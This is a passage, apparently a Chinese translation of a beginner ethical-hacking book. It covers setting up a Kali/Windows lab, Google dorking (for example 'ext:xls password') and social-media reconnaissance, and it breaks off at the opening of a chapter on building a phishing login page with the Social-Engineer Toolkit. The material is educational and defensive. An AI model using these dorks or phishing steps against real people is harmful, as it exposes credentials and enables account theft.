2. 选择 **Network** 选项卡并从“附加到”下拉列表中选择 **NAT Network**。在“名称”下拉列表中选择 `PublicNAT`。然后单击 **OK** 保存更改。
3. 启动 Kali VM 并使用用户名 `kali` 和密码 `kali` 登录，如前所述。
4. Kali VM 桌面出现后，通过单击屏幕左上角面板中的黑色方框图标打开命令行终端程序，该图标在 图 3-4 中用圆圈标出。
5. 输入命令 `ip addr` 并按 **ENTER** 查看虚拟机网络连接的信息。



图 3-4：检查 Kali VM 的 IP 地址

6. 您应该在 `eth0:` 部分下看到以 `10.0.9` 开头的 IP 地址，如 图 3-4 中用圆圈标出的那样。

当 Kali 显示以 10.0.9 开头的 IP 地址时，它已连接到 `PublicNAT` 网络。如果您没有看到类似 10.0.9.*x* 的地址，请转到 **Machine**▶**Reset** 重新启动 Kali VM。虚拟机重新启动后，再次在终端中运行 `ip addr` 命令。如果仍然看不到 10.0.9.*x* IP 地址，请返回 VirtualBox 管理器检查您的 Kali VM 的网络设置。

### 连接您的 Windows VM

将 Windows VM 连接到 `PublicNAT` 网络与连接 Kali VM 几乎完全相同。

1. 转到 VirtualBox 管理器，选择您的 Windows VM，然后单击 **Settings**。
2. 单击 **Network** 选项卡，从“附加到”下拉列表中选择 **NAT Network**，并从“名称”下拉列表中选择 `PublicNAT`。单击 **OK** 应用这些设置。
3. 启动您的 Windows VM 并使用默认密码（`Passw0rd!`）登录，如前所述。
4. 虚拟机加载后，单击 Windows 搜索栏（图 3-5 左下角），输入 `CMD`，然后按 **ENTER** 打开 Windows 命令提示符，其功能类似于 Kali Linux 终端程序。
5. 输入命令 `ipconfig` 检查虚拟机的网络设置。
6. 您应该在 10.0.9.*x* 范围内看到一个 IP 地址，如 图 3-5 中的 `10.0.9.5` 地址。

如果您的地址以 10.0.9 开头，则已成功将 Windows VM 连接到 `PublicNAT` 网络。如果不是，请转到 **Machine**▶**Reset** 重新启动 Windows VM。再次尝试 `ipconfig` 命令。如果仍然看不到 10.0.9.*x* IP 地址，请返回 VirtualBox 管理器检查您的虚拟机网络设置。



图 3-5：检查您的 Windows VM 的网络设置

7. 最后，尝试测试网络的互联网连接。在 Windows VM 中打开 Microsoft Edge 网络浏览器并浏览到任何网站，例如 [`www.nostarch.com/go-hck-yourself/`](https://www.nostarch.com/go-hck-yourself/)。

如果无法访问任何网站，请重新执行之前的步骤一次，并尝试关闭并重新启动 Windows VM。

## 更新您的虚拟机操作系统

现在您的虚拟机已连接到互联网，我们可以更新其操作系统以确保它们可以使用最新功能。定期更新计算机操作系统始终是一个好主意，可以通过启用自动更新或至少每月检查一次更新来实现。更新操作系统可以保护您免受病毒、黑客和其他在线威胁的侵害。这是防御最新网络攻击最重要的措施之一。

### 更新 Kali Linux

按照以下说明更新 Kali Linux：

1. 启动 Kali VM 并再次打开终端命令行应用程序。
2. 在终端提示符下，输入以下命令以查找需要更新的软件：

```
kali@kali:~$ sudo apt update
```

3. 第一次使用 `sudo` 时，Kali 会要求输入密码。此命令是“superuser do”的缩写，可让您以管理员（或 *superuser*）权限运行命令。输入 `kali` 作为密码并按 **ENTER**。
4. 现在使用此命令执行更新：

```
kali@kali:~$ sudo apt upgrade
```

5. 您可能需要按 `Y` 确认某些更新。随着各种软件包的更新，它们将在终端窗口中列出，然后显示消息 `Done`。
6. `apt` 完成 Kali 更新后，关闭机器并保存机器状态。

### 更新 Windows

接下来我们将更新您的 Windows VM。

1. 启动 Windows VM，在 Windows 搜索栏中输入 `updates`，并从选项列表中选择 **Check for updates**。
2. 如果 Windows 有可用更新，您应该会看到“立即安装”或“立即重启”按钮。单击按钮安装更新。您可能需要重新启动虚拟机，就像有时为真实计算机更新时需要做的那样。
3. Windows VM 完成更新后，关闭它并保存机器状态。

## 总结

在本章中，您设置了 VirtualBox 虚拟化软件并创建了两个虚拟机，即在您的实际计算机内作为计算机运行的软件。一个虚拟机运行 Kali Linux，将作为您的攻击计算机，而另一个运行 Windows，将作为您的目标计算机。您还创建了一个名为 `PublicNAT` 的虚拟网络，以将两个虚拟机连接到互联网并相互连接。然后您对 Kali 和 Windows VM 应用了更新。

您现在已设置了一个功能齐全的虚拟黑客实验室。做得好！有了两个虚拟机和虚拟网络，您就可以安全地、合乎道德地尝试不同的黑客技术，而不会影响您的物理计算机。在下一章中，我们将开始使用实验室进行一些侦察，以了解仅使用搜索引擎和社交媒体就能查出什么样信息。

# 4 在线侦察与自卫


大多数黑客的第一步是 *reconnaissance*，或 *recon*。在军事行动中，侦察涉及勘察敌方领土或观察目标。在黑客世界中，攻击者在线进行侦察。他们使用常规搜索引擎（如 Google）、社交媒体平台和专用工具收集有关公司、网络和个人的信息。然后他们利用这些信息来规划黑客攻击的下一步。


在本章中，您将使用 Google 查找有关您自己的信息，并使用 *Google hacking* 查找用户名和密码。然后您将使用社交媒体进行进一步的侦察，并学习通过限制在线分享的信息来保护自己。您不分享的信息就是攻击者无法利用的信息！

## 先自行搜索（在敌人之前）

攻击者可以利用公开信息进行 *phishing* 攻击，在这种攻击中，他们假装成您认识的人并发送虚假电子邮件，要求提供个人信息如您的密码。许多公司网站都有员工名单或员工目录，其中包含攻击者发动钓鱼攻击所需的所有姓名和电子邮件地址，甚至更糟。

让我们看看攻击者能看到您哪些信息。打开一个网页浏览器并搜索您自己的姓名。我在 Google 上搜索了自己的姓名，如 图 4-1 所示。


图 4-1：在您喜欢的搜索引擎上搜索自己的姓名。

任何人在互联网上都可以查到我做什么、在哪里工作，以及我写过书籍并发布了有关编程和网络安全方面的在线课程。点击结果链接会显示更多信息，包括我在 2018 年驾驶的汽车类型以及一些我的电子邮件地址。同样，您可能出现在工作活动、新闻文章、运动队、教会或非营利组织以及社交媒体页面和帖子的照片中。您的姓名或图像甚至可能出现在有关您家人或高中或大学同学聚会的文章中——这些都是您没有意识到已在互联网上的东西。

通常只需几分钟的侦察就能发现某人工作在哪里、住在哪里、年龄多大、家庭成员是谁等等。这些信息中的任何一项单独来看可能并不特别令人担忧，但如果足够多的信息可供获取，攻击者就可以在您身上建立一个完整的档案，包含家庭成员的姓名和出生日期、宠物的名字、工作和家庭位置等等。掌握这些信息后，攻击者可能能够回答您的密码安全问题，完全猜出您的一个密码，或冒充您认识的人以便从您那里提取更多信息。

保护个人信息的难度比以往任何时候都大，但一点意识可以帮助您避免一些常见错误。并且一些技能将帮助您找到可能已经泄露的关于您、您的公司或您家人的信息，包括您的在线账户和密码。

## 高级 Google 搜索

简单的网络搜索是很好的侦察，但 Google 的真正威力——Google hacking——来自于使用高级搜索命令。通过高级搜索，您可以找到用户名、密码、安防摄像头 feed 等等。然而，Google hacking 技术也会使您更容易意外下载恶意软件。为保护自己，请务必使用以下防御措施：

*   在您在第 3 章中设置的 Kali Linux 虚拟机内进行研究。请记住：在 VM 中执行的操作通常不会影响您的计算机，因此 VM 提供了一层安全性。如果您在 VM 中打开了感染的文件，您只需删除并重新安装虚拟机即可。
*   在点击链接之前检查链接是否感染了病毒。即使在 VM 内部，这也始终是一个良好的安全措施。VirusTotal 是一个免费的在线工具，可扫描网页、文件和链接中的恶意软件。我们将在下一节中使用 VirusTotal 在打开文件前扫描密码文件。
*   确保您的计算机已安装防病毒软件，以防您在 VM 外意外点击链接，并在研究期间恶意软件进入您的计算机。

Google hacking 依赖于对 *search operators* 的熟练使用，这些符号或词语使您的搜索结果更精确。您可能已经熟悉一些基本搜索操作符。例如，将引号（“ ”）放在短语周围会搜索确切的短语，而不是短语中的单个词。使用操作符 `AND` 和 `OR` 可以帮助您找到同时包含两个词的页面（*3D* `AND` *printer*）或包含任一词的页面（*coding* `OR` *cyber*）。

其他搜索操作符不太为人所知，但它们可以成为强大的黑客工具。例如，操作符 `ext:` 搜索特定的 *file extensions*，即不同类型文件的 filename 结尾。示例包括 *docx* 用于 Microsoft Word 文档，*txt* 用于纯文本，*pdf* 用于 PDF 文件，*xlsx* 用于 Microsoft Excel 电子表格，等等。操作符 `site:` 搜索特定网站的结果；您可能会搜索 `site:nostarch.com` 或 `site:yourcompany.com`。

黑客知道如何使用这些操作符来查找可能包含更有价值信息的特定类型文件，例如存储在摄像机用户手册在线 PDF 版本中的某种视频监控摄像机的默认密码。执行客户侦察的道德黑客可以使用这些有针对性的搜索词，帮助公司删除在线公开的敏感数据，例如显示公司去年购买了什么品牌的视频监控摄像机的预算电子表格。

### 使用 ext: 操作符查找密码

如果您知道在哪里以及如何查找，互联网上充满了敏感信息，如人们的用户名和密码。让我们尝试使用 `ext:` 搜索操作符来查找包含密码的电子表格。

在您的虚拟机中，打开网页浏览器，前往 `https://www.google.com/`，并在搜索字段中输入 `ext:xls password`，如 图 4-2 所示。

请记住 *not* 点击任何结果，因为熟练的攻击者很容易在感染的电子表格文件中隐藏病毒或勒索软件（或让感染的网页看起来像搜索引擎中的电子表格）。*Ransomware* 是一种讨厌的恶意软件类型，它会加密您所有的文件并要求您支付赎金才能取回您的数据，所以要小心！

您可能会在搜索页面中直接找到数十个用户名和密码，并且可以添加额外的搜索词来进一步定位搜索。例如，我在搜索中添加了 DCCC（缩写为民主党国会竞选委员会），并且 图 4-2 中的顶部结果显示了 2016 年美国选举活动密码，据称这些密码被黑客窃取，企图干预 2016 年美国总统选举。



图 4-2：输入 `ext:xls password` 会找到充满用户名和密码的 Excel 电子表格。

一旦您找到了感兴趣的搜索结果，请按照以下步骤操作：

1.  复制其中一个文件的 URL：突出显示 Google 搜索结果中的链接地址，右键单击或 `CONTROL-click`（在 Mac 上），然后选择 `Copy link address` 或 `Copy link location`。
2.  在新的浏览器标签页中打开 VirusTotal（[`www.virustotal.com`](https://www.virustotal.com)），点击 `URL` 标签，并将复制的 URL 粘贴到搜索字段中，如 图 4-3 所示。

    

    图 4-3：在点击前通过 VirusTotal 扫描可疑网页链接。
3.  点击搜索图标（放大镜）扫描该链接。在 图 4-4 中，VirusTotal 已使用超过 60 种不同的防病毒引擎扫描了密码电子表格文件，且均未发现任何感染迹象。


在这一点上，非道德的黑客会打开一个或多个电子表格，看看是否能找到可用的登录名和密码信息。作为道德黑客，我们可以选择尊重他人的隐私而不打开文件。或者，如果我们代表客户执行搜索，我们可以检查文件并告知他们信息可能已在线泄露。



图 4-4：我们选中的密码电子表格看起来可以安全打开。

再次尝试搜索，但现在输入 `ext:txt` 或 `ext:pdf` 来检查包含密码的其他文件类型。

现在尝试专门搜索你自己的信息。搜索你的用户名和单词 *password*，并添加 `ext:` 操作符以查找各种文件类型（例如，`bryson_payne AND password ext:xls`）。*切勿在 Google 或任何其他搜索引擎中输入你的实际密码。*

如果你发现自己的密码已在线发布，请立即更改。

## 使用 `site:` 操作符查找密码

你可以使用 `site:` 搜索操作符在特定网站上查找泄露的密码。例如，在 图 4-5 中，我在 Google 中输入了 `site:ung.edu password`，以查明我所在的大学——北佐治亚大学——的学生或教职员工密码是否存储在我们的公共 Web 服务器上。实际上这种情况比你想象的更常见——有时私有文件或文件夹会意外存储在公共服务器上，或者教师或管理员可能会临时上传密码文件供新用户使用而忘记删除。



图 4-5：使用 `site:` 搜索操作符在特定组织的网站上搜索结果。

如你所见，没有列出任何文本文件或电子表格，但底部结果是一篇旧新闻文章，关于分配给入校大学生的默认密码。在该文章发布时，攻击者本可以利用默认密码信息猜测数千名学生的初始密码。

你还可以将 `site:` 操作符与其他操作符组合使用。例如，`ext:pdf site:ung.edu bryson_payne AND password` 会搜索我大学网站上包含我的用户名和单词 *password* 的 PDF 文件。

这些只是你在 Google 中用来查找敏感信息的一些搜索操作符。多年来，其他黑客创建了一个 Google 黑客数据库，用来记录有用的搜索操作符组合。

## Google 黑客数据库

*Google Hacking Database* *(GHDB)* 是一个公开列表，其中包含数千种 Google 搜索操作符组合，可用于查找密码、连接到互联网的特定类型设备或设备、存在漏洞的特定 Web 应用程序等。

GHDB 是 Hackers for Charity 的 Johnny Long 发起的项目；该数据库现在由 Offensive Security 维护，Offensive Security 也是支持 Kali Linux 和其他黑客与安全工具的团队。你可以在 [`www.exploit-db.com/google-hacking-database/`](https://www.exploit-db.com/google-hacking-database/) 找到 GHDB，或在搜索引擎中搜索“Google Hacking Database”。

前往 [`www.exploit-db.com/google-hacking-database/`](https://www.exploit-db.com/google-hacking-database/) 上的 GHDB，并在搜索框中输入 `password`，如 图 4-6 所示。数据库将显示所有包含单词 *password* 的 *search queries*（操作符和搜索文本的组合）。



图 4-6：Google Hacking Database 密码搜索查询

点击 GHDB 中的任何条目都会显示该特定搜索查询的信息，你甚至可以直接前往 Google 尝试该搜索。

黑客将 GHDB 中找到的类似高级搜索称为 *Google dorks*，并将使用它们的过程称为 *dorking*。攻击者使用 dorking 不仅可以找到用户名和密码的电子表格，还可以找到带有默认管理员密码的产品 PDF，或找到具有 Web 界面的易受攻击设备，如监控摄像头甚至建筑物恒温器控制等。像 `intext:username ext:log` 这样的 Google dork 可以暴露服务器日志，其中可能包含数据库用户名和密码等有用信息。这些高级搜索技术为黑客节省了大量时间。

## 道德黑客如何使用 Google

如果一家公司聘请道德黑客测试其安全性，黑客会将侦察搜索集中在该公司、其供应商和供货商、员工、客户等方面。如果黑客在侦察过程中发现密码或其他敏感信息，他们会通知公司，以便锁定账户、要求用户更改密码或采取其他必要措施。你应对本书侦察中发现的任何信息采取同样的方式。

假设你发现了来自你办公室、孩子学校或朋友/家人的账户的密码。首先，永远不要自己尝试这些密码；这就像找到某人的钥匙并未经许可尝试打开那人的前门一样令人毛骨悚然且不道德。道德黑客会向公司或学校的 IT 员工报告潜在的密码泄露，或告诉朋友或家人他们的密码可能已泄露，并且应立即更改使用该密码或类似密码的任何账户的密码。

## 社交媒体与过度分享的危险

除了 Google 搜索之外，黑客还有另一种令人恐惧的简单侦察工具：社交媒体。你可能会对 Google 已掌握的关于你的信息量感到惊讶——甚至有点害怕。然而，你可能每天或一天多次通过社交媒体泄露更具体、更敏感的信息。

这里有一个你可以为自己做的快速练习，也可以与朋友或家人分享：在你最喜欢的社交媒体账户上花五分钟做一次关于自己的快速侦察任务。你能查出你住在哪里，你养了什么宠物（它们的名字是什么），你在哪里工作，或你配偶和孩子的名字吗？最近生日的帖子呢？从帖子的日期和提到的年龄（例如，如果有人发布了“祝 29 岁生日快乐！”），攻击者能否推断出你的确切出生日期和年份？你还能找到关于你经常去的地方（如体育赛事）和你交往的人的其他什么信息？

发布关于你的工作、爱好、孩子、旅行、宠物或周末活动的信息会向潜在攻击者透露你的位置和兴趣。试图进入你账户的攻击者会尝试使用他们在网上找到的个人信息来猜测或重置你的密码，例如宠物的名字、你的生日或你最喜欢的餐厅。更糟糕的是，如果你在仍在度假期间发布度假照片，任何可以访问你帖子的人都可能推断出你的家可能空着，因此入侵风险更低。

甚至分享你猫或狗的照片也可能很危险，因为图像文件本身可能会泄露你的位置，正如你在下一节中将看到的那样。

### 位置数据——社交媒体的未言明危险


Location data is automatically stored in most images taken with your smartphone, tablet, and many newer digital cameras. *位置数据*通常指的是*全球定位系统 (GPS)*坐标，即您手机或其他设备在地球上的精确纬度和经度。根据您使用的社交媒体服务（以及您的设置），您可能在发布的每张图片中都在定期流式传输您的位置。用智能手机在家拍摄的猫或狗的可爱照片可能会泄露您居住的确切位置。

要查看图片中隐藏的位置数据和其他信息，我们将使用 Jeffrey 的图像元数据查看器（[`exif.regex.info/`](http://exif.regex.info/)）。您可以上传图片文件或输入在线图片的 URL，以了解图像文件中是否存在位置数据或其他信息。

1. 前往 [`www.nostarch.com/go-hck-yourself/`](https://www.nostarch.com/go-hck-yourself/) 并下载 `BrysonPayne-TEDx.jpg`，这是几年前我在面向儿童的编程和网络安全 TEDx 演讲上拍摄的我的照片。
2. 前往 [`exif.regex.info/`](http://exif.regex.info/)，点击 `Choose file`，并选择下载的图像文件。
3. 勾选 reCAPTCHA 框以确认您不是机器人，然后点击 `View Image Data`。 图 4-7 显示了隐藏的数据（称为 *图像元数据*）。



图 4-7：图像元数据揭示了照片拍摄的时间、地点，甚至拍摄所用的手机！

照片拍摄于 2018 年 4 月 8 日，纬度和经度为 34.530261N、83.986075W——正是我演讲的礼堂的确切 GPS 坐标！舞台位于海拔 443 米（1,453 英尺）处，照片拍摄于一台旧的 iPhone 6S。所有这些信息，以及更多信息，默认情况下都隐藏在您用智能手机拍摄的每张照片中，因此请注意您在何处以及如何分享照片。

一些社交媒体应用也会故意发布您所在的位置。如果您曾经看到有人在某个酷地点“签到”，那就是一个例子。但您智能手机上的许多其他应用，从地图应用到电子邮件和搜索引擎，也可能在跟踪您的位置。检查您经常使用的所有应用的安全和/或隐私设置是个好主意，以查看是否可以关闭位置服务或仅在需要时使用。

### 在社交媒体上保护自己

稍加谨慎可能有助于保护您免于在线分享过多信息。您还需要教育您的朋友、亲戚和同事——任何可能在团体中拍摄您的照片并发布到社交媒体或说明您在特定时间所在位置的人。每个人都需要了解在当今高度互联的世界中保持更多隐私的重要性。

以下是您可以采取的一些步骤，以保护您自己和您关心的人免受社交媒体过度分享的危险：

1. 分享前三思。在发布图片或评论之前，请暂停思考是否现在（或根本）需要分享它。至少等到您回到家再炫耀您美妙的假期。并且请记住，一条无心的（或喝醉的）凌晨 2 点的社交媒体帖子可能会被打印出来、重新发布，甚至更糟。每条推文、帖子和快照都成为您永久在线声誉的一部分。
2. 更改默认设置。大多数社交媒体应用默认设置为与太多人分享过多信息。进入应用或网站的安全或隐私设置，关闭位置数据（或位置服务），以及您不想分享的任何其他敏感信息。
3. 限制谁可以看到您的帖子。如果照片或评论透露了太多关于您日常活动、爱好或常去地点的信息，请仅私下与会喜欢该帖子的朋友分享。
4. 迅速解决问题。报告身份盗窃（向当地警察和信用机构报告），欺诈（向您的银行和联邦贸易委员会报告，网址为 [`www.ftc.gov/`](https://www.ftc.gov/)），其他犯罪（向联邦调查局报告，网址为 [`www.ic3.gov/`](https://www.ic3.gov/)），以及任何网络欺凌或骚扰（向当地当局报告）。

社交媒体是一个强大的连接工具，但它也是犯罪黑客和道德白帽黑客进行侦察和信息收集的强大工具。不要过度分享。相反，要注意您安全和隐私设置，明智地使用社交媒体，如果有人利用社交媒体对付您，请立即向有关部门报告。

## 要点

在本章中，您了解了黑客用来收集您和您关心的人的信息的免费在线工具，如搜索引擎和图像元数据查看器。高级搜索运算符可以精确定位被盗或意外在线发布的特定用户名和密码。图像元数据查看器揭示了在线发布图片中隐藏的敏感信息，包括照片拍摄地点的确切 GPS 坐标以及使用的是什么类型的智能手机。

您了解了分享前三思、注意安全和隐私设置、限制谁可以看到您的帖子以及迅速报告欺诈和其他网络犯罪的重要性。作为聪明的网络防御者，我们必须在便利与安全之间取得平衡，以保护我们自己以及我们关心的人和组织。

本章讨论的每种工具和技术都可由道德黑客用来提高安全性和培训人们保护自己。但它也可能被攻击者用来针对受害者。做好准备的第一步是了解已经存在的信息。掌控您在线分享的信息，您就已经领先在线攻击者一步了。

# 5 社会工程学和网络钓鱼攻击


在本章中，您将使用您的虚拟黑客实验室学习攻击者访问受害者计算机和账户的最常见和最成功的方式之一：社会工程学。

*社会工程学*意味着欺骗人们泄露敏感或有价值的信息，如密码、信用卡号码或医疗数据。研究人员估计，94% 到 98% 的所有计算机攻击都始于某种形式的社会工程学。在电影中，黑客经常做一些非常高级的事情来入侵网络，但在现实世界中，他们通常只是发送一封电子邮件欺骗某人交出其用户名和密码。这种社会工程学技术被称为 *网络钓鱼*。

在本章中，您将通过创建网络钓鱼网站和发送网络钓鱼电子邮件来了解社会工程学的危险。您将看到攻击者欺骗人们交出用户名和密码是多么容易，以及如何保护自己免受网络钓鱼攻击。

## 社会工程学的工作原理

社会工程学利用我们渴望社交、帮助他人和成为群体一员的人性，或操纵我们基本的人类情感，如恐惧、好奇或贪婪，以欺骗我们犯下安全错误或泄露敏感信息。同伴压力是一种社会工程学形式：它说服某人做他们通常不会做的事情，因为“其他人都这样做”或害怕错过。同样，网络骗子使用社会工程学操纵我们做出不考虑后果的错误决定。

在物理世界中，骗子和罪犯通过装扮成送货员或公用事业工作人员进行社会工程学进入安全建筑，或他们“尾随”在某人身后，拿着大箱子并请别人为他们开门。一旦进入内部，他们通过“肩窥”在某人输入密码时从肩膀上偷看。


在数字世界中，社会工程师使用电子邮件、社交媒体、广告、网站、短信、自动电话呼叫和其他技术。在线罪犯可以欺骗毫无防备的用户点击恶意链接、登录到假网站、接受虚假好友请求、输入信用卡信息、下载并运行恶意软件，或泄露个人详细信息。

最常见的社会工程攻击类型是网络钓鱼。在网络钓鱼攻击中，攻击者使用电子邮件诱骗你下载感染恶意软件的文件或访问伪装成在线服务登录页面的恶意网站。如果你登录到假服务，攻击者就会获取你的用户名和密码。

为了了解攻击者设置网络钓鱼攻击有多容易，我们将使用你的 Kali Linux 虚拟机自己搭建一个。了解其操作方式将帮助你在点击之前识别出即使是最好的网络钓鱼邮件 *before* 你点击一个。

## 创建钓鱼网站

我们将首先创建一个看起来就像 Twitter 登录页面的钓鱼网站。该网站将捕获并存储用户名和密码。

1. 启动你的 Kali Linux 虚拟机并点击屏幕左上角菜单面板上的 Kali 图标。打开 `13 - Social Engineering Tools` 文件夹并找到 `Social Engineering Toolkit (SET)` 应用程序，如 图 5-1 所示。该程序也称为 Social-Engineer Toolkit，使安全专业人员能够开发高级社会工程攻击来测试公司的安全性。这种类型的道德黑客行为称为 `penetration testing`（简称为 `pentesting`），因为你是在测试是否能够渗透公司的防御。



图 5-1：找到 `13 - Social Engineering Tools` 文件夹和 `SET` 应用程序。

2. 点击 SET 图标打开 Social Engineering Toolkit。如果提示输入密码，请输入 `kali`。（注意输入时可能看不到密码。）应用程序加载时，SET 会要求你接受使用条款，如 图 5-2 所示。输入 `Y` 以同意仅将 SET 用于合法目的。

3. 你现在应该会看到类似于 清单 5-1 所示的主 SET 菜单。

```
Select from the menu: 1) Social-Engineering Attacks 2) Penetration Testing (Fast-Track) 3) Third Party Modules 4) Update the Social-Engineer Toolkit 5) Update SET configuration 6) Help, Credits, and About 99) Exit the Social-Engineer Toolkit
set>
```

清单 5-1：主 SET 菜单

